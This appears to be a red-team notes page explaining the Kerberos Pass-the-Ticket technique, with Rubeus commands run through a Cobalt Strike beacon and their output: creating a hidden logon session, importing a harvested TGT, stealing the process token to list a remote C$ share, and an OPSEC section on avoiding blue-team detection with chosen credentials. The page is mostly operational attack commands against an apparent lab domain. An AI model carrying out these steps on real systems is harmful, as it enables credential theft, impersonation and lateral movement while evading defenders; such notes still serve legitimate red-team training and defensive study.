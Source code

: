 # Pass The Ticket (PTT)

## Pass The Ticket

Pass The Ticket is a technique where you steal a Kerberos Ticket-granting Ticket (TGT) from a user and use it to impersonate that user.

#### <mark style="color:red;">Note</mark>: Requires Elevated Privileges

## Create Sacrificial Logon session - Rubeus

First step is to create a blank logon session that we can pass the TGT to. This is because a logon session can only hold one TGT at a time.

Rubeus' createnetonly will start a new hidden process (passed as argument in this case cmd.exe) using[CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API.

```powershell
beacon> execute-assembly C:\Tools\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe

[*] Action: Create Process (/netonly)

[*] Using random username and password.

[*] Showing process : False
[*] Username        : GJB9A2GP
[*] Domain          : VPY1XQRP
[*] Password        : R4ABN1K3
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 4748
[+] LUID            : 0x798c2c
```

This creates a new locally unique identifier (LUID)

## Pass TGT to new LUID&#x20;

Next we want to pass the TGT we harvested into the new LUID we created in the previous step.

```powershell
beacon> execute-assembly C:\Tools\Rubeus.exe ptt /luid:0x798c2c /ticket:doIFuj[...snip...]lDLklP

[*] Action: Import Ticket
[*] Target LUID: 0x798c2c
[+] Ticket successfully imported!
```

Rubeus `triage` will now show the users TGT inside this LUID.

## Impersonate the Process created with createnetonly

The final step is to impersonate the process we created using Rubeus' `createnetonly` command. We can do so using the process ID.

```powershell
beacon> steal_token 4748

beacon> ls \\internal-website.rotta.dev\c$
[*] Listing: \\internal-website.rotta.dev\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2024 11:30:11   $Recycle.Bin
          dir     08/10/2024 11:45:28   $WinREAgent
```

## Drop Impersonation

```powershell
beacon> rev2self
beacon> kill 4748
```

## OPSEC

By default Rubeus uses a random username, domain, and password with CreateProcessWithLogonW API. The "Suspicious Logon Events" saved search will show 4624's and the value will be noticeable by blue team as it is not expected.

We can pass our own values like so:

```powershell
beacon> execute-assembly C:\Tools\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe 
/domain:dev.rotta.dev /username:robert /password:Password123!
```

\
